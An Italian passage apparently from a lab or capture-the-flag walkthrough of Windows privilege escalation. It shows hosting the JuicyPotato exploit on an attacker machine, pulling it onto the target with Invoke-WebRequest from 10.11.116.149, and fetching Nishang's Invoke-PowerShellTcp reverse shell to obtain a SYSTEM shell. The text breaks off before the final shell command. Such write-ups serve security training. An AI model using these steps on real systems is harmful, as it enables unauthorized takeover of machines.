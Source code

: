 dobbiamo scaricare il nostro exploit **Fresh potatoes**. Possiamo ottenere l'ultima versione [qui](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) . Dopo averlo scaricato nella nostra macchina, dobbiamo trasferirlo nel server. Apriamo un server Python Http e scarichiamolo dall'altro lato usando PowerShell.

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
Sulla nostra macchina eseguiamo questo modulo Python nella directory in cui abbiamo il nostro exploit:

```
sudo python3 -m http.server 8080
```

E dovremmo essere in grado di accedere al nostro server web utilizzando il nostro indirizzo IP:
```
c:\>mkdir temp

c:\>cd temp

c:\temp>powershell

```

```
Invoke-WebRequest http://10.11.116.149:8080/JuicyPotato.exe -outfile JuicyPotato.exe
```

```
PS C:\temp> Invoke-WebRequest http://10.11.116.149:8080/JuicyPotato.exe -outfile JuicyPotato.exe
PS C:\temp> dir


    Directory: C:\temp


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----         2/7/2025   5:20 AM                Microsoft                     
-a----         2/7/2025   5:24 AM         347648 JuicyPotato.exe 
```


vediamo se possiamo eseguirlo sulla macchina da cmd
```
JuicyPotato.exe
```

quindi abbiamo anche bisogno di qualcosa da eseguire con l'eseguibile JuicyPotato. In questo caso, possiamo semplicemente usare un'altra Reverse Shell che farà apparire una SYSTEM shell dalla nostra parte.

Possiamo crearne uno con MSFVenom o scaricarne uno specifico per questo caso, come la shell inversa Nishang da [qui](https://github.com/samratashok/nishang) .
https://github.com/samratashok/nishang

Quindi scarichiamo **Invoke-PowerShellTcp.ps1** dalla directory Shells e salviamolo sulla nostra macchina. 
```
wget https://github.com/samratashok/nishang/raw/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
```
Inoltre, aggiungiamo una nuova riga alla fine del file, contenente il seguente comando, sostituendo IP e Port con i nostri:
